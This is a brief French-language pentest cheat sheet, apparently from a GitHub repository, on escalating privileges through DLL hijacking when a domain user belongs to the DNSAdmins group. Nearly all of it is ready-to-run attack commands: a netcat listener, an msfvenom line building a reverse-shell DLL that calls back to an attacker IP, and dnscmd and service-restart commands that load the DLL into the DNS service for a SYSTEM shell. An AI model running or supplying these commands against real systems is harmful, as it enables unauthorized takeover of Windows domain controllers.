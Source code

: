 # DLL Hijacking 

L'attaque est possible si un utilisateur du Domain fait partie du groupe `DNSAdmin`

```sh
rlwrap nc -nlvp 4444
```

- Créer le payload DLL avec msfvenom et lancer un écouteur

```sh
msfvenom --platforme windows -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=10.10.x.x -f dll -o evil.dll
```

- Se connecter au compte d'utilisateur et transféré la DLL

- Injecter la dll dans le processus système et obenir un shell

```sh
dnscmd /config /serverlevelplugindll C:\Temp\evil.dll

sc stop dns
sc start dns
```
